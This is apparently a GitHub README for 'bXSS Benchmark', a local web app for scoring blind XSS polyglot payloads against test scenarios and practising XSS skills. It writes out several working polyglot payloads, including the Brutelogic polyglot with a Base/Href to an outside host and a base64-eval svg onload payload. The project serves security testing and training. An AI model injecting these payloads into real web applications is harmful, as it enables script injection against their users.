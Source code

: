 # bXSS Benchmark

![alt text](img/-bxss--is-centered-and-dark-blue.png)

## Objective

**bXSS Benchmark** is a web application designed to evaluate and benchmark the effectiveness of blind XSS (Cross-Site Scripting) polyglot payloads against a variety of real-world scenarios. It provides a structured environment for security researchers and developers to test, compare, and analyze payloads in different contexts, helping to improve web application security. It also can be use to train your XSS skills.

As the XSS gym training developed by brutelogic is no longer accessible, this project is a local alternative. I try to integrated his previous scenario as reference, but this integration isn't fully finnished.

It is a side project, do not hesitate to report issues. I will try to fix them as soon as possible !

PS: I would not recommend to expose this app pubicly, no security measures have been deployed and the app is still under development. 

---

## Features

- **Scenario-Based Testing:** Test payloads against a curated set of XSS scenarios.
- **Payload Management:** Add, edit, and manage XSS payloads.
- **Automated and Headless Testing:** Run tests automatically in headless mode.
- **Result Tracking:** View and analyze the effectiveness of payloads.
- **Extensible:** Easily add new scenarios via YAML files.
- **Training:** Practice your xss skills in different contexts.

---

## Installation

### Prerequisites

- [Docker](https://www.docker.com/) (optional, for containerized setup)

### Clone the Repository

```bash
git clone https://github.com/your-org/xss-benchmark.git
cd xss-benchmark
```


## Running the Application

```bash
docker compose up --build
sudo echo 'xsslab_app 127.0.0.1' >> /etc/hosts
```

The application will be available at [http://xsslab_app:9090](http://xsslab_app:9090).

---

## Running Tests

go to webapp, in the home page add your payload and run a benchmark.

Payloads examples:

```html 
Brutelogic bxss
JavaScript://%250Aalert?.(1)// '/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--> </Title/</Style/</Script/</textArea/</iFrame/</noScript> \74k<K/contentEditable/autoFocus/OnFocus= /*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->

Basic bxss
"><svg/onload=eval(atob('YWxlcnQoImJ4c3MiKQ=='))>// 

```

### Manual tests
You want to improve your payload and modify it manually?
1. Go to the Scenarios page
2. Click on the scenario you want to test.
3. In the url add "?payload=" followed by your payload
4. Press enter :)

---

## Adding a New Scenario

1. **Edit the Scenario YAML File**

   Add your new scenario to the main YAML file, e.g. `app/scenarios/TBD/scenarios.yaml`, following the existing format.

2. **Extract Scenario Files**

   Use the provided script to split scenarios into individual YAML files:

   ```bash
   bash scripts/extract_scenarios.sh
   ```

   This will generate scenario files in `app/scenarios/definitions/`.

3. **Verify Scenario Loading**

   The application loads scenarios from the definitions directory at startup or when you click on the button in the scenario web page.

4. **Test Your Scenario**

   - Visit `/scenarios` in the web UI to see your new scenario.
   - Test with different payloads, using the 'payload=' url parameter

---

## Directory Structure

```
app/
  controllers/
  models/
  scenarios/
    definitions/ // scenario defintions are there
    TBD/
  templates/
  static/
  app.py
scripts/
  extract_scenarios.sh
tests/
README.md
requirements.txt
```

---

## Contributing

- Fork the repository and create a feature branch.
- Submit pull requests with clear descriptions.
- Follow PEP8 and project-specific code style.

---

## License

[MIT License](LICENSE)

---

## Contact

For questions or support, please open an issue or contact the maintainer.



## Top payload

From Brutelogic - 105/110
```js
JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
```

Shortest alternative - 105/115
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## TBD
For js_snippet insert the payload in a custom js file. Because there is redundancy for brutelogic xss gym.
Brutelogic filter is probably operate  via backslashing quotes.
add scenario : script src in head section 

